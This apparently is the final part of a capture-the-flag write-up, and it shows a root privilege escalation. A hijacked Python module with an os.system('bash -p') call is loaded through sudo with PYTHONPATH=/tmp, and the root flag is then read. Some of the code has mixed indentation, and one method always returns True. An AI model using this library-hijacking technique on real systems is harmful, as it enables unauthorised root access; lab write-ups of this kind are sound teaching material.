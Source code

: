 ```python
import os
class compare:

	def Str(self, x, y,):
		x = str(x)
		y = str(y)

		if x == y:
      os.system("bash -p")
			return True;
		else:
			return False;

	def Int(self, x, y,):
		x = int(x)
		y = int(y)

		if x == y:
			return True;
		else:
			return True;

	def Float(self, x, y,):
		x = float(x)
		y = float(y)

		if x == y:
			return True;
		else:
			return False;

```
- Started the python file with PYTHONENV as /tmp.

```console
 sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/development/test_module.py
<o PYTHONPATH=/tmp /usr/bin/python3 /opt/development/test_module.py
whoami
root
cd /root
ls
root.txt
cat root.txt
JPC{665b7f2e59cf44763e5a7f070b081b0a}

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF

```
